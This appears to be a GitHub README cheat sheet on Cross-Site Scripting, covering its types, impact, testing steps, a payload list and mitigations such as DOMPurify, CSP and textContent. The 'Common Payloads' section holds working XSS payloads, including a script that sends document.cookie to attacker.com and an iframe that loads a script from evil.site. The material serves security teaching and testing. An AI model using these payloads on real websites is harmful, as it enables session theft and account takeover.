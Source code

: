# 🎯 Cross-Site Scripting (XSS)  
*Web vulnerability where attackers inject malicious scripts into trusted websites*  

---

## 📖 Table of Contents  
- [📜 Definition](#-definition)  
- [🔀 Types of XSS](#-types-of-xss)  
- [💥 Impact](#-impact)  
- [🔍 Testing Methodology](#-testing-methodology)  
- [📌 Common Payloads](#-common-payloads)  
- [📚 Resources](#-resources)  
- [🛡️ Mitigation](#️-mitigation)  

---

## 📜 Definition  
XSS (Cross-Site Scripting) is an injection vulnerability where attackers execute malicious JavaScript in a victim's browser, often for:  
- Session hijacking 🕵️  
- Phishing attacks 🎣  
- Defacement 🏴  

---

## 🔀 Types of XSS  

| Type              | Description                                                                 | Risk Level |  
|--------------------|-----------------------------------------------------------------------------|------------|  
| **🔄 Stored XSS**   | Malicious script is **stored** on the server (e.g., comments/user profiles). Executes when victims view infected pages. | Critical   |  
| **🎯 Reflected XSS**| Script is **reflected** in immediate server responses (e.g., search results). Requires social engineering.             | High       |  
| **🌐 DOM-based XSS**| Client-side attack exploiting unsafe JavaScript DOM manipulation. No server interaction.                              | High       |  

---

## 💥 Impact  
- **Cookie/session theft** 🍪  
- **Account takeover** 👑  
- **Keylogging** ⌨️  
- **Content spoofing** 🎭  
- **Redirection to malicious sites** ➡️  

---

## 🔍 Testing Methodology  
1. **Identify Input Points**:  
   - Search bars 🔍  
   - Comment sections 💬  
   - User profiles (bio/username) 👤  
   - URL parameters (e.g., `?id=<payload>`) 🌐  

2. **Test for Reflection**:  
   - Inject a unique string (e.g., `cupcakes123`) and check:  
     ```html
     <!-- Check if it appears in: -->
     Page content | HTML source | Network responses (DevTools)
     ```  

3. **Escalate with Payloads**:  
   ```html
   <script>alert(1)</script>                 <!-- Classic test -->
   <img src=x onerror="alert(document.cookie)">  <!-- Cookie theft demo -->
   ```

---

## 📌 Common Payloads  
### Basic Tests  
```html
<script>alert(1)</script>
"><svg/onload=confirm(1)>
```  

### Advanced Attacks  
```html
<!-- Steal cookies -->
<script>fetch('https://attacker.com?cookie='+document.cookie)</script>  

<!-- Redirect to phishing site -->
<iframe src="javascript:document.write('<script src=//evil.site/xss.js></script>')">
```  

📖 Full Cheat Sheet: [XSS Payload Masterlist](https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45)  

---

## 📚 Resources  
| Resource | Description | Link |  
|----------|-------------|------|  
| **Beyond XSS** | Advanced exploitation techniques | [aszx87410.github.io](https://aszx87410.github.io/beyond-xss/en/) |  
| **PortSwigger Labs** | Hands-on XSS practice | [portswigger.net](https://portswigger.net/web-security/cross-site-scripting) |  
| **OWASP XSS Guide** | Defense strategies | [owasp.org](https://owasp.org/www-community/attacks/xss/) |  

---

## 🛡️ Mitigation  
| Strategy | Example |  
|----------|---------|  
| **Sanitize Inputs** | Remove/escape HTML tags with libraries like `DOMPurify` |  
| **Use CSP Headers** | `Content-Security-Policy: default-src 'self'` |  
| **Avoid Unsafe Functions** | Use `textContent` instead of `innerHTML` |  

```javascript
// UNSAFE ❌
element.innerHTML = userInput;

// SAFE ✅
element.textContent = userInput;
```

---

*Found a mistake or have improvements? Submit a PR! Contributions welcome!* 🚀
